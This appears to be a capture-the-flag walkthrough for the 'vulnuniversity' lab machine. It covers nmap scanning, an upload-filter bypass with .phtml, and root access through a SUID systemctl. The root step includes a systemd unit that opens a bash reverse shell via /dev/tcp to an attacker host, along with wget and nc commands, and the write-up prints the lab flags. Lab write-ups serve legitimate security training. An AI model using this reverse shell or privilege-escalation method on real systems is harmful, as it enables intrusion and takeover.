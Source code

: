 # Reconnaissance

Scan the box, how many ports are open?
```
# nmap -Pn <machine ip>
...
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3128/tcp open  squid-http
3333/tcp open  dec-notes
...
```
> *Answer*: 6

What version of the squid proxy is running on the machine?
```
# nmap -sV <machine ip>
...
3128/tcp open  http-proxy  Squid http proxy 3.5.12
...
```
> *Answer*: 3.5.12

How many ports will nmap scan if the flag -p-400 was used?
> *Answer*: 400

Using the nmap flag -n what will it not resolve?
> *Answer*: DNS

What is the most likely operating system this machine is running?
```
# nmap -sV -O <machine ip>
...
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
...
```
> *Answer*: Ubuntu

What port is the web server running on?
```
# nmap -sV <machine ip>
...
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
...
```
> *Answer*: 3333


# Locating directories

What is the directory that has an upload form page?
```
# dirsearch -u "http://<machine ip>:3333/"
...
[14:17:17] 301 -  320B  - /internal  ->  http://10.10.117.6:3333/internal/
...
```
> *Answer*: /internal/

# Compromise the webserver

Try upload a few file types to the server, what common extension seems to be blocked?
> *Answer*: .php

Run this attack, what extension is allowed?
> *Answer*: .phtml

What is the name of the user who manages the webserver?
```
$ cat /etc/passwd
...
bill:x:1000:1000:,,,:/home/bill:/bin/bash
```
> *Answer*: bill

What is the user flag?
```
$ ls -la /home/bill
...
-rw-r--r-- 1 bill bill   33 Jul 31  2019 user.txt
$ cat /home/bill/user.txt
8bd7992fbe8a6ad22a63361004cfcedb
```
> *Answer*: 8bd7992fbe8a6ad22a63361004cfcedb

# Privilege Escalation

On the system, search for all SUID files. What file stands out?
```
$ find / -perm -u=s -type f | grep -v "Permission denied"
...
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```
> *Answer*: /bin/systemctl

Become root and get the last flag (/root/root.txt)
```
/var/www/html/root.service
[Unit]
Description=PrivEsc

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ip_address_of_my_attackbox/9999 0>&1'

[Install]
wantedBy=multi-user.target
# systemctl restart apache2
$ cd /tmp
$ wget <kali ip>/root.service
...
2021-09-19 04:09:25 (32.9 MB/s) - 'root.service' saved [175/175]
$ /bin/systemctl enable /tmp/root.service
Created symlink from /etc/systemd/system/root.service to /tmp/root.service.
$ /bin/systemctl start root.service
# nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.8.241.141] from (UNKNOWN) [10.10.117.6] 57870
bash: cannot set terminal process group (2040): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnuniversity:/# cat /root/root.txt
a58ff8579f0a9270368d33a9966c7fd5
```
> *Answer*: a58ff8579f0a9270368d33a9966c7fd5


